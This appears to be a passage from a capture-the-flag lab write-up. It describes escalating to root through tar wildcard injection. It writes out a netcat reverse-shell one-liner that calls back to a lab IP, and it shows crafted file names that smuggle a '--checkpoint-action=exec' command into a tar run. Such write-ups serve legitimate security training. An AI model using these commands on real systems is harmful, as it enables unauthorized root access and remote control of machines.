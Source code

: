 Referring again to the steps I performed for the Marketplace room. Ensuring we are running from the Documents folder.

```
echo "mkfifo /tmp/ydzhkhh; nc 10.11.54.237 8000 0</tmp/ydzhkhh | /bin/sh >/tmp/ydzhkhh 2>&1; rm /tmp/ydzhkhh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

![](<../../../.gitbook/assets/image (2088).png>)

### Shell as root

Start a netcat listener, wait a couple of minutes and obtain a **root** shell and then grab the root.txt flag.

![](<../../../.gitbook/assets/image (22) (2).png>)
